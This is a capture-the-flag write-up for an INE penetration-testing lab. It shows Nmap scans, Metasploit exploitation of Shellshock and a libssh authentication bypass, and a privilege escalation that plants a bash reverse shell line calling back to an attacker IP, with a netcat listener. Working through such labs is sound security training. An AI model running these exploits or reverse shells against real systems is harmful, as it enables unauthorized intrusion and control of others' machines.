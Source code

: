 # Host & Network Penetration Testing: System-Host Based Attacks CTF 2
### Flag 1: Check the root ('/') directory for a file that might hold the key to the first flag on target1.ine.local

We begin with an Nmap scan across all ports, which reveals that only port 80 is open

  nmap -sS -O -p- -T4 target1.ine.local
  nmap -sS -O -p80 -sV -T4 target1.ine.local

A service scan reveals Apache 2.4.6 (Unix) on the target system.

We proceed with a Dirb scan to enumerate possible useful folders. It finds cgi-dbin folder and the home page of the site named browser.cgi.
This suggest we could attempt a Shellshocked vulnerability exploit.

nmap target1.ine.local --script http-shellshock --script-args "http-shellshock.uri=/browser.cgi"

Nmap reveals that the file browser.cgi is vulnerable to Shellshock.

We proceed with Metasploit:
search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
setg RHOSTS target1.ine.local
setg TARGETURI /browser.cgi
setg LHOST 192.164.224.2 
run

Note: If something is not working, try selecting another LPORT.

We obtain a Meterpreter session and start exploring the target server, finding .flag.txt as our second flag.
Navigating to the root directory, we locate the first flag.

Flag 2: In the server's root directory, there might be something hidden. Explore '/opt/apache/htdocs/' carefully to find the next flag on target1.ine.local.

This flag is found during the previous step.


Flag 3: Investigate the user's home directory and consider using 'libssh_auth_bypass' to uncover the flag on target2.ine.local.

Analyzing target 2, we scan it with Nmap. The scan leads us to port 22 and its service, libssh 0.8.3.

nmap target2.ine.local -p- -T4 -sS
nmap target2.ine.local -p22 -T4 -sS -sV

Using:
searchsploit libssh

we discover that this particular version of libssh is vulnerable to unauthorized access.

We proceed with Metasploit:
search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass - action: shell
setg RHOSTS target2.ine.local
set CMD /bin/bash -i
run
sessions -i 1

Navigating to the home folder of the user, we locate the third flag.


Flag 4: The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag on target2.ine.local.

Obtaining a root shell is not an easy task. However, there is an executable file in the user’s home folder named welcome, which the user is able to execute. This file runs another file, greetings, that is not accessible.

We overwrite greetings with a file containing the following string:
 
bash -i >& /dev/tcp/192.164.224.2/41234 0>&1

After using Netcat to open port on the attack machine to listen for communications:

nc -nlvp 41234

We execute welcome, that executes greetings, obtaining a root shell on the target machine.

Navigating to the root folder we find the last flag.
